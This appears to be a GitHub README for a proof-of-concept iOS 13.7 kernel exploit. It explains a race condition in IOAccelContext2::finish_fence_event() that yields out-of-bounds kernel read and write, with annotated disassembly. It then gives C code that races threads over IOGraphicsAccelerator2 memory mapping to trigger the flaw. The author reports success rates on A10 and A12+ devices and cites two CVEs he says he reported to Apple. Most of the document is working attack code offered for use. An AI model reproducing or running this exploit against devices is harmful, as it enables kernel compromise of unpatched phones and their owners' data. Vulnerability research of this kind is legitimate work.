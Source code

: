 ## oob_events

#저자commnet

I've updated oob_events exploit and it should work fine 
in on A12+ devices (with 60 % of success rate) and ~95% in devices with lower ram size i.e A10.
Tested on iPhone 11 and iPhone 7.

다음은 PoC 커널 익스플로잇으로, iOS 13.7에서 커널 작업 포트를 얻는 방법을 보여줍니다. 
나중에 PoC를 작성하여 업데이트하겠습니다.


개인 장치에서 사용하거나 탈옥에 사용하지 않는 것이 좋습니다. 
장치가 불안정한 상태가 될 수 있습니다
I dont recommend using it in your personal device or to use it for a jailbreak. 
it may leave your device in unstable state. You’ve been warned.


arm64e의 익스플로잇은 iPhone 9,3 (9/10배 작동)과 달리
그다지 안정적이지 않으며 많은 커널 패닉이 예상되며 약간의 작업이
필요하고 이러한 익스플로잇을 일반화하고 모든 장치에서 작동하기는 어렵습니다.

## oob_events.c
## IOAccelContext2::finish_fence_event() race condition OOB read/write
```
#if 0
IOAccelContext2::finish_fence_event() race condition OOB read/write

This is a method exposed to user space, it takes a kernel read-only shared memory
(type 2 via clientMemoryForType())  address and treats it as an IOAccelEvents Array.

The user supplied index is checked against the IOAccelEvents array bounds,since there are no
locks held in this method,it is possible to change the array bounds by calling
IOAccelContext2::clientMemoryForType() again in a separate thread, this will expand the size by
multiplying the older size by 2, but we still have a reference to the old shared memory address
with the size of the new one.Therefore, we created a condition where the scalar index is checked
against the new array size but we still have the old shared array reference.
From this condition,we can make IOAccelEvents array points to an arbitrary location, thus perform arbitrary
kernel read and semi-arbitrary kernel write.

fffffff0061f7fa4  ldr        x8,[x0, #0x6a8] .       // x8 takes a reference to shmem_addr but not atomically  
fffffff0061f7fa8  cbz        x8,LAB_fffffff0061f8010
fffffff0061f7fac  mov        x20,x0
fffffff0061f7fb0  ldr        w9,[x0, #0x6d8] .      
fffffff0061f7fb4  cmp        w1,w9, LSR #0x6 .       // scalar input is checked against the array bounds,
fffffff0061f7fb8  b.cs       LAB_fffffff0061f8020
....
fffffff0061f7fd4  blr        x8=>IOAccelEventMachineFast2::finishEventUnlocked                        

By completely controlling the IOAccelEvents content, we can perform multiple memory read/writes,
as shown in the disassembly below :

IOAccelEventMachineFast2::finishEventUnlocked()
LAB_fffffff00620e0c0                            XREF[1]:     fffffff00620e20c(j)  
    fffffff00620e0c0  ldr        x23,[x19, x26, LSL #0x3]
    fffffff00620e0c4  cmn        w23,#0x1
    fffffff00620e0c8  b.eq       LAB_fffffff00620e204
    fffffff00620e0cc  lsr        x22,x23,#0x20
    fffffff00620e0d0  smaddl     x25,w23,w28,x21  // x25 will point to arbitrary address , we completely control w23
    fffffff00620e0d4  ldr        w8,[x25, #0xf0]!  
    fffffff00620e0d8  sub        w8,w22,w8
    fffffff00620e0dc  cmp        w8,#0x1
    fffffff00620e0e0  b.lt       LAB_fffffff00620e204
    fffffff00620e0e4  sxtw       x24,w23
    fffffff00620e0e8  ldr        x8,[x21, #0x28] .  
    fffffff00620e0ec  ldr        x8,[x8, x24, LSL #0x3]
    fffffff00620e0f0  ldr        w8,[x8]   // OOB read since x24 is user controlled
    fffffff00620e0f4  str        w8,[x25]  // <---- OOB write


#endif
#include "client.h"

int start= 0;


io_connect_t iokit_get_connection(const char *name,u32 type)
{
    kern_return_t kr = KERN_SUCCESS;
    io_connect_t conn = MACH_PORT_NULL;
    io_service_t service  = IOServiceGetMatchingService(kIOMasterPortDefault,
                                                        IOServiceMatching(name));
    if (service == IO_OBJECT_NULL) {
        printf("unable to find service \n");
        exit(0);
    }

    kr = IOServiceOpen(service, mach_task_self(), type, &conn);
    //CHECK_MACH_ERR(kr,"IOServiceOpen");
    return conn;
}

void map_memory(io_connect_t c,u32 type, void *addr,size_t *size)
{
    kern_return_t kr = IOConnectMapMemory(c, type, mach_task_self(), (mach_vm_address_t *)addr, &size, 1);
    assert(kr == KERN_SUCCESS);
}


void s_finish_fence_event(io_connect_t c,u64 scalar0)
{
    int selector = 5;
    
    kern_return_t kr = IOConnectCallMethod(c, selector, (void*)&scalar0,1,
                 NULL, 0,
                 NULL, NULL,
                 NULL, NULL);

}

void *do_finish_fence_event(void *arg)
{
    io_connect_t c = *(io_connect_t *) arg;
    while(!start){}
    
    s_finish_fence_event(c, 0x100);
    return NULL;
}

void *do_map_memory(void *arg)
{
    io_connect_t c = *(io_connect_t *) arg;
    while(!start){}
    mach_vm_address_t addr = 0;
    mach_vm_size_t size = 0x0;
    
    //pthread_yield_np();
    map_memory(c,2,&addr,&size);
    return NULL;
}
#define THREADS 0x2
pthread_t ths[THREADS];

void doit(void)
{
    printf("Winning Race \n");
    
    while(1) {
        io_connect_t c = iokit_get_connection("IOGraphicsAccelerator2", 0);
        io_connect_t agxsh = iokit_get_connection("IOGraphicsAccelerator2", 2);
       
        IOConnectAddClient(c,agxsh);
        mach_vm_address_t addr = 0;
        mach_vm_size_t size = 0x0;
    
        char *ptr = (char *)addr;
        map_memory(c,2,&addr,&size);
    
        map_memory(c,0,&addr,&size);
        memset(addr,0xcc,0x4000);
        map_memory(c,1,&addr,&size);
        memset(addr,0x41,0x4000);

        u64 value = ((u64)0x41414141 << 0x20) | 0x42424242;
        memcpy(addr,&value,0x8);
        int thc = 1;
        pthread_t th[thc];

        for(int i=0; i< thc; i++) {
            pthread_create(&th[i],NULL,do_map_memory,(void *)&c);
        }
        for(int i=0; i< THREADS; i++) {
        
            pthread_create(&ths[i],NULL,do_finish_fence_event,(void *)&c);
        }
        
        start = 1;
        for(int i=0; i< THREADS; i++) {
            pthread_join(ths[i],NULL);

        }
        for(int i=0; i< thc; i++) {
            pthread_join(th[i],NULL);
        }
        IOServiceClose(c);
        IOServiceClose(agxsh);
    }

}
```

# 설명
The exploit uses two distinct vulnerabilities which I independently discovered and reported to Apple, CVE-2020-27905 which is a race condition leads to OOB read/write  via arbitrary 32-bit index,and CVE-2020-9964 which is a kernel  information leak bug.
